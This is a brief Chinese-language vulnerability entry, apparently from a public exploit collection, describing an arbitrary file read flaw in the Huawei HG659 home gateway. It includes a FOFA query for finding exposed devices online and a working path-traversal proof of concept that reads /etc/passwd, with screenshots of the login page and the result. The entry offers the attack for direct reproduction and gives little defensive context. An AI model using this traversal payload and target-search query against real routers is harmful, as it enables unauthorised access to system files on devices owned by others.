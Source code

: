 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## FOFA

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110951927.png)